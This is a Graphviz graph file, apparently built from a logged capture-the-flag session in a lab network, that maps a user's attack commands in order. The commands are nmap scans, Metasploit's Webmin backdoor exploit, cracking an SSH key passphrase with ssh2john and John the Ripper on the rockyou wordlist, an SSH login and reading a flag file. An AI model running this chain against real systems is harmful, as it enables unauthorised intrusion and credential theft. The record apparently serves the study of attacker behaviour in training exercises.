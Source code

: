 // creating graph for user: 70
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 A0 M0 A1 "]
	1 [label="nmap 172.18.1.5 -p 10000 V0 "]
	3 [label="ls A10 "]
	5 [label="ls A10 "]
	11 [label="msfconsole A2 M2 "]
	13 [label="msfconsole V2 "]
	14 [label="use unix/webapp/webmin_backdoor A4 M4 "]
	16 [label="show options A5 M5 "]
	17 [label="set RHOSTS 172.18.1.5 A6 M6 "]
	18 [label="exploit A8 M8 "]
	20 [label="set LHOST 192.168.131.85 V6 "]
	21 [label="exploit V8 "]
	27 [label="nmap 172.18.1.1/24 A0 A1 "]
	28 [label="nmap 10.0.1.1/24 A0 A1 "]
	29 [label="nmap 10.1.0.1/24 A0 A1 "]
	30 [label="nmap 100.100.100.1/24 A0 A1 "]
	31 [label="msfconsole V2 "]
	32 [label="use unix/webapp/webmin_backdoor V4 "]
	33 [label="set LHOST 192.168.131.85 V6 "]
	34 [label="nmap 172.168.1.1/24 A0 A1 "]
	35 [label="nmap 172.18.1.1/24 A0 A1 "]
	36 [label="set RHOSTS 172.18.1.5 V6 "]
	37 [label="nmap 10.1.0.1/24 A0 A1 "]
	38 [label="exploit V8 "]
	39 [label="show options V5 "]
	41 [label="exploit V8 "]
	43 [label="nmap 10.1.17.4 A0 A1 "]
	45 [label="chmod 600 key.txt A15 M15 "]
	46 [label="ssh -i key.txt eve@10.1.17.4 A16 M16 "]
	47 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	48 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	49 [label="ls A10 "]
	50 [label="./ssh2john.py A14 A16 "]
	51 [label="./ssh2john.py key.txt A14 A16 "]
	52 [label="./ssh2john.py key.txt > sshjohn.txt A14 A16 "]
	53 [label="ls A10 "]
	54 [label="man john A14 "]
	55 [label="john --single sshjohn.txt A14 A16 "]
	56 [label="john --show sshjohn.txt A5 A14 A16 "]
	57 [label="john --single sshjohn.txt A14 A16 "]
	58 [label="john --show sshjohn.txt A5 A14 A16 "]
	59 [label="john -i sshjohn.txt V16 "]
	60 [label="john --incremental sshjohn.txt V16 "]
	61 [label="ls A10 "]
	64 [label="john --wordlist /usr/share/wordlists/rockyou.txt sshjohn.txt A14 M14 A16 "]
	65 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	66 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	67 [label="ls A10 "]
	69 [label="ls A10 "]
	70 [label="cat flag.txt A17 M17 "]
	0 -> 1 [constraint=false]
	1 -> 3 [constraint=false]
	3 -> 5 [constraint=false]
	5 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 41 [constraint=false]
	41 -> 43 [constraint=false]
	43 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	rankdir=LR
}
